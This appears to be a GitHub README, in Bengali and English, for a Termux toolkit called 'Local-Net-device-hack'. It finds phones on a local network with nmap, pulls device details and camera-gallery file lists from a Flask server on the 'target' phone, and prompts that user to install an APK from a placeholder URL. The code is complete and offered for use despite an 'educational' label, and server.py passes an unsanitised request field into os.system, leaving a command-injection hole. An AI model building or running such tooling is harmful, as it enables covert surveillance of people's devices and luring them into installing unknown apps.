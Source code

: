 # Local-Net-device-hack


---

## ** টুলসের ফিচারস (Educational, Non-Root Based):**

1. **Target Finder using `nmap`**
2. **Target IP নির্বাচন করে রিকুয়েস্ট পাঠানো**
3. **টার্গেট ডিভাইসে Flask Server – Install Prompt + Device Info**
4. **APK Install হলে – টার্গেটের গ্যালারির ফাইল লিস্ট ফেরত পাঠাবে**
5. **Live Info Receive – Admin side**

---

## **Phase 1: Install প্রয়োজনীয় Tools (Termux)**

```bash
pkg update -y
pkg install nmap -y
pkg install python -y
pip install flask requests
```

---

## **Phase 2: Admin Side Tool (`admin_tool.py`)**

```python
import os
import requests
import json

def scan_with_nmap():
    print("\n[+] আপনার নেটওয়ার্ক স্ক্যান চলছে...\n")
    os.system("nmap -sn 192.168.0.0/24")

def send_install_request(ip):
    url = f"http://{ip}:5000/install_prompt"
    try:
        response = requests.post(url, json={"message": "আপনি কি অ্যাপস ইনস্টল করতে চান?"})
        print("\n[+] রিকুয়েস্ট পাঠানো হয়েছে!")
        info = response.json()
        print(f"\n[+] টার্গেট ইনফো:\nBrand: {info['brand']}\nModel: {info['model']}\nHostname: {info['hostname']}")
    except:
        print("\n[!] টার্গেট ডিভাইস অ্যাক্সেস করা যাচ্ছে না!")

def get_gallery(ip):
    url = f"http://{ip}:5000/gallery"
    try:
        response = requests.get(url)
        files = response.json().get("gallery", [])
        print("\n[+] গ্যালারির ফাইল লিস্ট:\n")
        for file in files:
            print(file)
    except:
        print("\n[!] গ্যালারি ডেটা আনতে সমস্যা হচ্ছে।")

print("শিক্ষামূলক উদ্দেশ্যে ব্যবহার করবেন এই টুলস,👇")
print("1: Target Device Find (nmap)")
print("2: Start Request")
print("3: Get Gallery Files")

choice = input("Enter choice: ")

if choice == "1":
    scan_with_nmap()

elif choice == "2":
    ip = input("Enter target IP: ")
    send_install_request(ip)

elif choice == "3":
    ip = input("Enter target IP: ")
    get_gallery(ip)
```

---

## **Phase 3: Target Flask Server (Target side, `server.py`)**

```python
from flask import Flask, request, jsonify
import os
import platform
import socket
import glob

app = Flask(__name__)

@app.route('/install_prompt', methods=['POST'])
def prompt_install():
    msg = request.json.get("message")
    
    os.system(f'termux-notification --title "রিকুয়েস্ট" --content "{msg}" '
              '--button1-text "Yes" '
              '--button1-action "am start -a android.intent.action.VIEW -d https://example.com/your_apk.apk" '
              '--button2-text "No" --button2-action "exit"')

    hostname = socket.gethostname()
    return jsonify({
        "brand": platform.system(),
        "model": platform.machine(),
        "hostname": hostname
    })

@app.route('/gallery', methods=['GET'])
def get_gallery():
    files = glob.glob("/storage/emulated/0/DCIM/Camera/*.jpg")  # Only JPG for demo
    return jsonify({"gallery": files})

app.run(host="0.0.0.0", port=5000)
```

---

## **ব্যবহার পদ্ধতি:**

### **টার্গেট মোবাইলে (Termux)**
```bash
pip install flask
python3 server.py
```

### **অ্যাডমিন মোবাইলে (Termux)**
```bash
python3 admin_tool.py
```

---

## **Note:**
- গ্যালারি অ্যাক্সেস কাজ করবে যদি Flask server চালানোর আগে storage permission দেয়া থাকে (`termux-setup-storage`)
  

---
